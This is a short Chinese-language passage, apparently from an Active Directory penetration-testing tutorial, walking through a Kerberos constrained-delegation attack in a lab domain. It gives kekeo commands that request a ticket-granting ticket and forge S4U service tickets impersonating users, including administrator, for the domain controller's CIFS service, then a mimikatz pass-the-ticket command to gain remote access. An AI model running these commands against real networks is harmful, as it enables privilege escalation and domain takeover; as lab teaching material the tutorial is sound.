 #### （2）使用 kekeo 攻击

我们也可以在 Win7 上使用 kekeo 执行如下命令生成 ST 服务票据：

```
#使用 hack 账号申请一个 TGT 认购权证
tgt::ask /user:hack /domain:xie.com /password:P@ss1234

#使用上一步的 TGT 认购权证，利用 S4U 协议，以 test@xie.com 用户权限申请一张访问
cifs/AD01.xie.com 服务的 ST 服务票据
tgs::s4u /tgt:TGT_hack@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi /user:test@xie.com /service:cifs/AD01.xie.com
tgs::s4u /tgt:TGT_server_account@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi /user:administrator@xie.com /service:cifs/AD01.xie.com
```

如图所示，使用 kekeo 进行约束性委派攻击，其会生成三个票据。

![截图](4f4702360d158422340335a1346a0e60.png)

然后使用 mimikatz 执行如下命令将最后的 s4u2proxy 步骤生成的 ST 服务票据导入内存中，即可访问域控的 CIFS 服务。

```
kerberos::ptt TGS_test@xie.com@XIE.COM_cifs~AD01.xie.com@XIE.COM.kirbi
```

如图所示，使用 mimikatz 将票据导入内存中后，即可远程访问域控。
